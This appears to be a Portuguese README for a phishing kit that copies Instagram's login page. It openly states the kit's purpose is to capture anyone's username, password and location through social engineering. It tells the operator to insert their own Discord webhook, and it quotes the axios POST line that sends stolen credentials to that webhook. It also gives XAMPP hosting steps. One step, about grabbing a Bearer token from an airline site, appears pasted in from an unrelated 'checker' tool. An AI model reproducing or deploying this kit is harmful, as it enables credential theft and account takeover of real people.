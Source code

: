 # 📷 Tela Fake Instagram

A **Tela Fake do Instagram** nada mais seria **um site identico ao site oficial**, porém usado de formas não éticas para obter credenciais de qualquer pessoa, desde que ela caia na sua engenharia social e faça a tentativa de login pelo site falso. Essa tela fake foi feita em **HTML** para **obter informações sobre a conta** + **localização** e **outros** !

## 📩 Como recebo as informações ?

- **Para receber o login, senha & outros coletado pelo Site Falso, é preciso ter um Servidor dentro do Discord**.
- **Abra o `index.html` e troque o exemplo pela sua `Webhook Válida.` Exemplo**:

  - **const response = await axios.post('`https://discord.com/api/webhooks/exemplo/1nsaneqy`', data);**
  - **Este código acima poderá ser encontrado na linha ``258``**.

## 🖥 Consigo testar em minha máquina local ?

Claro ! Para testar a **Tela Fake** em seu computador, basta seguir esses processo:

1. Instale o [XAMPP](https://www.apachefriends.org/download.html)

2. Após a instalação, vá até o local aonde o XAMPP foi instalado

3. Dentro da pasta do XAMPP, procure por "htdocs".

4. Apague todo o conteúdo dentro, e cole a `index.html`

5. Abra a `index.html` com o seu Bloco de Notas ou etc. `(Troque a webhook)`

6. Vá até o site da **https://voeazul.com.br/** e capture o `Bearer`

7. Abra o XAMPP, ligue o Apache, e no seu navegador vá até a [localhost](http://localhost/)

8. Pronto! O checker já está configurado para uso <3

## 💻 Quem fortaleceu o código foi:

- 1nsaneqy,
- Equipe Lean7!
